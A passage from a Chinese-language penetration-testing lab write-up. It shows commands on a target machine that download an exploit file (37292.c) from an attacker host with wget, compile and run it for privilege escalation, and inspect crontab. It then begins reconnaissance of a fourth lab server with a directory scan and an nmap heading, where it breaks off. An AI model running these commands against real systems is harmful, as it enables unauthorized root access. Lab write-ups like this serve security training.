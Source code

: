![image-20220304225223820](https://gitee.com/xxb667/img/raw/master/img/image-20220304225223820.png)

## 4.2 下载

目标机器：执行下载，下载到tmp目录下

```shell
cd /tmp
wget http://192.168.81.131:1234/37292.c
cc 37292.c
./a.out
whoami
```

![image-20220305231007988](https://gitee.com/xxb667/img/raw/master/img/image-20220305231007988.png)

![image-20220305231242887](https://gitee.com/xxb667/img/raw/master/img/image-20220305231242887.png)

看下脚本内容:

```shell
crontab -l
cat /opt/lmao.py
```

![image-20220305231322937](https://gitee.com/xxb667/img/raw/master/img/image-20220305231322937.png)

![image-20220305231352026](https://gitee.com/xxb667/img/raw/master/img/image-20220305231352026.png)





# 第4次 服务器 192.168.1.19

# 1.信息搜集

## 1.1御剑扫描

```
192.168.1.19
```

扫描到1个文件和1个网页：

```
http://192.168.1.19/robots.txt
http://192.168.1.19/index.php
```

![image-20220307154535082](C:/Users/18393/AppData/Roaming/Typora/typora-user-images/image-20220307154535082.png)

## 1.2 nmap扫描
